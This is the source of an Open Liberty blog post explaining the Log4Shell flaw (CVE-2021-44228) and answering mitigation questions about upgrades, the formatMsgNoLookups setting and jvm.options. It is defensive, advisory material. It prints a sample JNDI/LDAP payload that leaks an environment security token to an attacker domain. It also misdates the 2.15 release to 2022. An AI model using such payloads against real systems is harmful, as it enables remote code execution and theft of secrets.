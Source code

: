 ---
layout: post
title: "Liberty Guide on Log4j2 CVE-2021-44228"
# Do NOT change the categories section
categories: blog
author_picture: https://avatars.githubusercontent.com/u/10999780?s=460&u=1a66e468c70e84f54bf5a75c27881cc6133ccc20&v=4
author_github: https://github.com/Emily-Jiang
seo-title: Liberty Guide on Log4j CVE-2021-44228 (Log4Shell)
seo-description: Open Liberty Guide on understanding and solving Log4j2 CVE-2021-44228
blog_description: Open Liberty provides this essential guide for Open Liberty customers to understand Log4j CVE-2021-44228 (Log4Shell) and the suggestions how to mitigate this threat 
open-graph-image: https://openliberty.io/img/twitter_card.jpg
additional_authors:
- name: Alasdair Nottingham
  github: https://github.com/nottycode
  image: https://avatars3.githubusercontent.com/nottycode
---

On December 10th 2022 the Apache Logging project released a 2.15 release for Log4j2 a popular Java logging framework to address a CVSS 10 scored CVE-2021-44228 known as Log4Shell. 
CVSS 10 is the highest severity score that can be assigned.


The Log4Shell vulnerability occurs due to a combination of a message lookup feature in Log4J V2 and how the Java Naming and Directory (JNDI) API works when connecting via LDAP. 
A common syntax for variable replacement in configuration is `${variable-name}`, the Log4J message lookup feature enables that capability for log messages. 
Log4J also has a special lookup function for resolving variables from an LDAP server. The syntax for this is `${jndi:ldap://<server name>/<object name>}`. 
When Log4J sees this string it will connect to the provided server to download the object to log the value. 
This will return a serialized object which the LDAP JNDI implementation will deserialize, if the JVM does not have a copy of the class for the serialized object it will use a copy available from the server. 

It is very common for applications using a logging framework to log untrusted input for debugging purposes in case of a failure. 
Meaning if an attacker can work out an input value that will be logged by the application it can insert this string into the payload and when it is logged the Java code will download code from the server controlled by the attacker and execute it. 
To add to the risk present by this lookup function the lookup function is recursive allowing for data exfiltration. Data exfiltration maybe possible even if the targeted LDAP server is not reachable. 
For example a string like `${jndi:ldap://${env.security_token}.<attacker domain>/a}` would resolve the security_token environment variable from the shell and then do a DNS lookup to resolve the IP address using the attackers controlled DNS server providing the hacker with the value of the security token.

Since the original `Log4Shell` Apache has issued two further CVEs affecting Log4J CVE-2021-4104 and CVE-2021-45046. 
As a result of this the recommendation is to upgrade all log4j usage to at least the 2.16 version.

Open Liberty does not ship log4j and as a result any data logged by Open Liberty will not put you at risk. 
However log4j is a widely used framework and your applications may make use of Log4J as a result we have prepared the following Q&A for developers seeking advice:


* Q1. If my applications use log4j, which version of log4j should I use to be safe?

You should update the version of `log4j2` to `2.16`. 

* Q2. If I am running with latest version of Java, am i protected? Do i still need to follow remediate steps? 

`CVE-2021-44228`is specific to Log4J V2 and has nothing to do with Java or its level. Features in the most recent releases of Java mitigate some, but not all of the risk. 


* Q3. It will take a long time to update all our applications is there anything we can do to mitigate in the meantime?

Provided `log4j` 2.10 or newer is being used setting the Java System property log4j2.formatMsgNoLookups to true will mitigate the issue. Setting an environment variable to `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` will also have the same effect. These steps will not mitigate `CVE-2021-45046`.


* Q4 How can I configure Liberty with log4j2.formatMsgNoLookups?

Create a jvm.options file in `${wlp.user.dir}/shared/jvm.options` with `-Dlog4j2.formatMsgNoLookups=true` on a line by itself. Then restart all servers for it to take effect. This will apply to all servers in that user dir.


* Q5. I cannot find `org/apache/logging/log4j/core/lookup/JndiLookup.class` in my log4j jar, am I vulnerable?

It is unlikely you are vulnerable. Most likely you are running log4j1 which is not vulnerable.


* Q6. Could setting `log4j2.formatMsgNoLookups=true` have an effect on log4j 1.x or other non-log4j applications? Is it safe to set this parameter until we have checked every custom written part in our WAS environments? 

The setting should have no affect on non-log4j or log4j 1.x libraries. It is a property related to log4j 2.x behavior.


* Q7. If I set `log4j2.formatMsgNoLookups` to `true` will it affect my application use of log4j2?

Yes, that will be visible to any and all copies of `log4j2` that are in the JVM.

If you are WebSphere Application Server customers, please refer to https://www.ibm.com/support/pages/security-bulletin-vulnerability-apache-log4j-affects-websphere-application-server-cve-2021-44228[this blog] to learn about more on how to respond to this CVE.
You might find the following blogs to be useful: 

* https://www.infoq.com/news/2021/12/log4j-zero-day-vulnerability/[Vulnerability Affecting Multiple Log4j Versions Permits RCE Exploit]
* https://blog.sebastian-daschner.com/entries/log4shell-and-how-to-fix%C2%A0[The Log4Shell vulnerability and how to fix it]
* http://slf4j.org/log4shell.html[Comments on the CVE-2021-44228 vulnerability from SLF4J]